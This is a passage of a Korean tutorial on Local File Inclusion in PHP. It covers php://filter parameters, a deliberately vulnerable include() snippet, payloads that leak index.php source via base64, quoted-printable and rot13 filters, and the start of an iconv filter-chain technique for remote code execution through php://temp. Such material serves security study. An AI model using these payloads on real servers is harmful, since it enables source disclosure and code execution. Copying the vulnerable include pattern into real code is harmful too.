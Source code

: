 Filter Wrapper 사용 시 다음의 매개변수를 사용하며, 여러 필터 체인을 하나의 경로에 지정할 수 있다.

|**resource=\[Stream\]**|필수, 필터링을 설정할 스트림 지정|
|**read=\[Filter\]**|선택, \|(vertical bar)로 구분하여 하나 이상의 filters 적용|
|**write=\[Filter\]**|선택, \|(vertical bar)로 구분하여 하나 이상의 filters 적용|
|**-**|read, write로 시작하지 않거나 없을 시 read/write 모두 적용|

<br />
만약 `include` 함수로 file 파라미터값에 PHP 확장자를 추가한 파일을 포함시킬 때 웹 소스코드를 포함하는 LFI 공격을 수행할 수 있다.
※ 확장자 추가 시 Null Byte Injection을 이용하여 확장자를 무시하는 기법은 PHP 5.3.4 버전에서 패치되었다.
```php
<?php include $_GET['file']?$_GET['file'].'.php':'main.php'; ?>
```

아래는 index.php 소스코드를 확인하는 예시이다.
`file://` 등의 Wrapper를 이용하여 삽입 시 PHP 파일이 실행되어 웹 소스코드 확인은 불가하다.
따라서 `php://filter`를 이용하여 PHP 파일이 실행되기 전에 필터를 적용한다. 보통 base64 인코딩을 사용하고, 인코딩 방식마다 소스코드가 반환되지 않을수도 있다.
```php
<?php include 'php://filter/convert.base64-encode/resource=../index'.'.php' ?>
<?php include 'php://filter/read=convert.base64-encode/resource=/var/www/html/index'.'.php' ?>
<?php include 'php://filter/convert.quoted-printable-encode/resource=../index'.'.php' ?>
<?php include 'php://filter/read=convert.quoted-printable-encode/resource=/var/www/html/index'.'.php' ?>
<?php include 'php://filter/string.rot13/resource=../index'.'.php' ?>
<?php include 'php://filter/read=string.rot13/resource=/var/www/html/index'.'.php' ?>
```


### RCE using php://filter + php://temp 
php://temp는 <u>임시 데이터를 파일과 같은 Wrapper에 저장할 수 있는 read-write 스트림</u>이다.
기본적으로 비어있기 때문에  `echo file_get_contents('php://temp');` 코드 실행 시 어떠한 값도 출력하지 않는다. 해당 Wrapper 사용을 위해서는 `allow_url_include`가 on으로 설정되어 있어야 한다.

이러한 php://temp와 php://filter를 이용하여 RCE 공격을 수행할 수 있는 방법이 있는데, 그건 바로 <u>php://filter를 이용하여 웹셸 코드의 필터체인을 생성한 후 php://temp에 저장하는 것이다.</u>

<br />

이 때 php://temp에 삽입할 웹셸 코드의 필터 체인은 [PHP Filter Chain 스크립트][PHP Filter Chain 스크립트]를 통해 생성할 수 있다.
해당 스크립트를 통해 웹셸 코드를 생성하는 방식에 대해 간략히 설명해보겠다. 자세한 내용은 [PHP Filters Chain][PHP Filters Chain]을 참고하자.

PHP Filter Chain을 통해 생성 가능한 문자열은 `0-9a-z-A-Z/+`이다. Filter Chain을 이용하여 `0`을 획득하는 걸 예시로 설명해보겠다.

먼저 `convert.iconv.*` 필터를 이용할 때에는 어떠한 인코딩 방식으로 변환하는지에 따라 쓰레기 값이 반환된다. 코드를 참조하여 `0`에 해당하는 값 앞에 `convert.iconv.UTF8.CSISO2022KR` 필터 추가 시, `0`을 포함한 쓰레기 값(ESC$)C)이 출력된다.

이후 반환된 쓰레기 값에 `base64_decode` 함수 사용 시 형식에 맞지 않는 값(쓰레기 값)이 제거하여 반환하고, 그 값을 다시 base64로 인코딩했을 때 획득하려 했던 `0`이 맨 앞에 위치함을 확인할 수 있다.
```php
// �����0ESC$)C
<?php echo file_get_contents('php://filter/convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2/resource=php://temp'); ?>
// 0A==
<?php echo file_get_contents('php://filter/convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode/resource=php://temp'); ?>
```
